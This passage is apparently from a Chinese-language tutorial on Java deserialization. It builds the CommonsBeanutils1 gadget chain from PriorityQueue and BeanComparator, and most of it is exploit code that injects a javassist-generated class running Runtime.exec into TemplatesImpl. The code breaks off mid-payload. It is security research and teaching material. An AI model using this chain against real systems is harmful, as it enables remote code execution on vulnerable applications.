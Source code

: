 ```java
    }
}
```
根据之前的学习我们知道CC2链中入口是以PriorityQueue，主要的承接方法就是某个Comparer的`compare`方法，所以我们可以使用这个`BeanComparer`构造出新的链:
```java
package top.longlone;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateTemplates(String code) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(code);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        return newTemplatesWithClassBytes(classBytes);
    }

    private static TemplatesImpl newTemplatesWithClassBytes(byte[] classBytes) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }



    public static byte[] getPayload() throws Exception {
        TemplatesImpl obj = generateTemplates("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");

        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
```